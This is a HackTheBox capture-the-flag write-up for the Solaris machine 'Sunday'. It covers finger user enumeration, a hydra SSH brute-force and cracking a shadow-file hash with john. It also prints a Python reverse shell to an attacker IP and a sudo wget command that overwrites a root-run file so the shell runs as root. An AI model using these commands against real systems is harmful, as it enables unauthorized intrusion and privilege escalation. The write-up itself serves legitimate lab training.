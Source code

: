 
> medium-to-markdown@0.0.3 convert
> node index.js

HackTheBox Write-Up — Sunday
============================

![](https://miro.medium.com/max/1400/1*itSt35O3bwfON5arMvzFmA.png)

Sunday is no day off, it’s a great machine to practice common Linux privilege escalation methods through proper enumeration & vulnerability chaining.

```
**nmap -T4 -p- 10.10.10.76**Starting Nmap 7.70 ( [https://nmap.org](https://nmap.org) ) at 2020-08-28 11:42 EDT  
Warning: 10.10.10.76 giving up on port because retransmission cap hit (6).  
Nmap scan report for 10.10.10.76  
Host is up (0.013s latency).  
Not shown: 61654 closed ports, 3876 filtered ports  
PORT      STATE SERVICE  
**79/tcp    open  finger  
111/tcp   open  rpcbind  
22022/tcp open  unknown  
34550/tcp open  unknown  
55407/tcp open  unknown**Nmap done: 1 IP address (1 host up) scanned in 2262.52 seconds
```

There are five ports open, only one I am familiar with.

```
**nmap -T4 -A -p79,111,22022,34550,55407**Starting Nmap 7.70 ( [https://nmap.org](https://nmap.org) ) at 2020-08-28 16:36 EDT  
Nmap scan report for 10.10.10.76  
Host is up (0.025s latency).PORT      STATE SERVICE VERSION  
**79/tcp    open  finger  Sun Solaris fingerd**  
|\_finger: No one logged on\\x0D  
**111/tcp   open  rpcbind 2-4 (RPC #100000)  
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)**  
| ssh-hostkey:   
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)  
|\_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)  
**34550/tcp open  unknown  
55407/tcp open  unknown**  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Aggressive OS guesses: Sun OpenSolaris 2008.11 (94%), Sun Solaris 10 (94%), Sun Solaris 9 or 10, or OpenSolaris 2009.06 snv\_111b (94%), Sun Solaris 9 or 10 (SPARC) (92%), Sun Storage 7210 NAS device (92%), Sun Solaris 9 or 10 (92%), Oracle Solaris 11 (91%), Sun Solaris 8 (90%), Sun Solaris 9 (89%), Sun Solaris 8 (SPARC) (89%)  
No exact OS matches for host (test conditions non-ideal).  
Network Distance: 2 hops  
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunosTRACEROUTE (using port 111/tcp)  
HOP RTT     ADDRESS  
1   9.40 ms 10.10.14.1  
2   9.55 ms 10.10.10.76OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .  
Nmap done: 1 IP address (1 host up) scanned in 62.51 seconds
```

A few Google searches finds me a vulnerability involving “fingerd” towards username enumeration on Solaris systems.

![](https://miro.medium.com/max/1400/1*sqMZaDqu2y-lmsvQjH4dvg.png)[https://www.rapid7.com/db/vulnerabilities/finger-solaris-user-enumeration](https://www.rapid7.com/db/vulnerabilities/finger-solaris-user-enumeration)

Some more searching leads me to a Perl script we can use to enumerate usernames. We’ll download it using wget.

```
**wget** [**https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl**](https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl)
```![](https://miro.medium.com/max/1400/1*hEoObsS7-7XbUjCqzxIJGw.png)```
Usage: finger-user-enum.pl \[options\] ( -u username | -U file-of-usernames ) ( -t host | -T file-of-targets )Examples:\\$ finger-user-enum.pl -U users.txt -t 10.0.0.1  
\\$ finger-user-enum.pl -u root -t 10.0.0.1  
\\$ finger-user-enum.pl -U users.txt -T ips.txt
```

A quick “locate username” on my Kali machine pulls all the files containing the word username.

```
**locate username**
```

/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt sounds good to me with an advertised “10 million!” usernames…

![](https://miro.medium.com/max/1400/1*YI_7axYe7GBrCuwpoNXmNA.png)![](https://miro.medium.com/max/1400/1*6Bd5LhU9s2Vp0iRo22hGjA.png)Quick preview

Using this file, our syntax in our working directory will be:

```
**perl finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.76 > userenum.txt**
```

The scripts output will append the results to a file named userenum.txt. (You do not have to do this, I just don’t like to lose my results.)

![](https://miro.medium.com/max/1400/1*RF8e7LhDPeXw4YiD9kX80A.png)

The output is a bit messy, but we have a few usernames to attempt a brute-force attack against port \[**22022/tcp open ssh SunSSH 1.3 (protocol 2.0)\]**

The following usernames are the most interesting:

```
sammy@10.10.10.76: sammy console <Jul 31 17:59>  
sunny@10.10.10.76: sunny pts/3 <Apr 24, 2018>
```

Use the following syntax to brute-force:

```
**hydra -V -f -t 4 -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022**
```![](https://miro.medium.com/max/1400/1*IVLkF60wYFaS2MiBDQwKSg.png)

We obtain the credentials for Sunny!

> sunny | sunday

```
**ssh -p 22022 sunny@10.10.10.76**
```![](https://miro.medium.com/max/1400/1*YYgqDCCDPJgJbTlYHgNRZA.png)

Habitually on Linux systems it’s always a good idea to check if a low-privileged user has any sudo permissions.

```
**sudo -l**
```

We find that we can run the command /root/troll as root without a password.

![](https://miro.medium.com/max/1400/1*-2T8yLglR_FzVT7p2iBe_g.png)

While traversing and enumerating the files on the machine, I found a copy of the shadow file containing hashed user passwords.

![](https://miro.medium.com/max/1400/1*f-FCv0hB0-jGhAX8lAZqaw.png)```
**cat /backup/shadow.backup**
```

If we are able to crack Sammy’s password hash, we’ll be able to grab the user.txt flag.

```
**echo "sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::" > hash.txt**
```

Copy the hash to a file, I named mine hash.txt. We’ll use john to crack the hash.

```
**john -w="/usr/share/wordlists/rockyou hash.txt**
```![](https://miro.medium.com/max/1400/1*iDda9isUCBTW0boxxePOQA.png)

Success.

> Sammy | cooldude!

Let’s grab the user.txt found on the desktop, and enumerate the system using Sammy’s credentials.

```
**ssh -p 22022 sammy@10.10.10.76**
```![](https://miro.medium.com/max/1400/1*7ZK3ZmjNVjPW4MUt09NH1Q.png)

Habitually, we type sudo -l.

```
**sudo -l**
```![](https://miro.medium.com/max/1400/1*QcCX9NKNdrBdautztxNtHQ.png)

Looks like Sammy can run wget as root without a password. With this, we can overwrite /root/troll with a reverse-shell and then run it as root with Sunny’s user account.

Locally, copy and paste this Python reverse-shell to a file named reverse.py

```
#!/usr/bin/pythonimport socket  
import subprocess  
import oss=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM)  
s.connect(("**10.10.14.15",443**))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
p=subprocess.call(\["/bin/sh","-i"\]);
```

Host this file with an HTTP server using Python, but before you do — ensure to edit the parameters to your local IP/port to receive the shell (I like to use port 443.) **_note: // Later on I ran into trouble because my IP was wrong (see: 10.10.14.5 vs 10.10.14.15)_**

![](https://miro.medium.com/max/1400/1*Pn2GutPyPn-ZagP9adm00w.png)```
**python3 -m http.server 80**
```

Setup a listener on the designated port.

```
**nc -nlvp 443**
```![](https://miro.medium.com/max/1400/1*SAfBMYPVhdKGWeZBWrItjQ.png)

On the victim machine: we’re going to download the reverse shell to replace /root/troll (Sammy), and then run the reverse shell as root (Sunny). Hopefully… returning us with a reverse shell as a privileged user.

```
**sudo wget -O /root/troll** [**http://10.10.14.15/reverse.py**](http://10.10.14.15/reverse.py)
```![](https://miro.medium.com/max/1400/1*FoXOfkQUZdnfSzAeJXe7Vg.png)```
**sudo /root/troll**
```![](https://miro.medium.com/max/1400/1*4-vlM2cx8LbdzGwP5KMkOA.png)

Note: The file resets itself every 5 seconds, so you’re going to have to work fast. ( I also had a typo in my IP address, so this could be why I had so many failures)

![](https://miro.medium.com/max/1400/1*c0YHCrXNSdhWj_SWiNSA-w.png)

You will notice the port I am listening on had changed from 443 to 1234. I thought there was a firewall blocking port 443… but as I said above, I discovered a typo in my receiving IP address within the reverse-shell.

![](https://miro.medium.com/max/1400/1*LF9GEfw_dyRmE58N6B7tzA.png)
